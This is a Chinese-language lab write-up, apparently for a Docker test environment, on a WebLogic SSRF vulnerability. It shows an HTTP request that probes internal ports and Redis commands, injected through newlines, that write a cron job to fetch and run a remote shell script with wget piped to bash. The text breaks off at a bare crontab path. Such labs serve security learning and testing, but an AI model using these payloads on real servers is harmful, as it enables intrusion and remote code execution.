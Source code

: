 # Weblogic SSRF漏洞

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 测试环境搭建

编译及启动测试环境

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

## SSRF漏洞测试

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在brupsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。

![](1.png)

修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。

![](2.png)

通过错误的不同，即可探测内网状态。

## 注入HTTP头，利用Redis反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6389`可以连通：

![](3.png)

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
set 1 "\n\n\n\n* * * * * root /usr/bin/wget -qO- https://git.io/v9djj|bash\n\n\n\n"

set 1 "\n\n\n\n* * * * * root touch /tmp/success\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

/var/spool/cron/crontabs/root
```

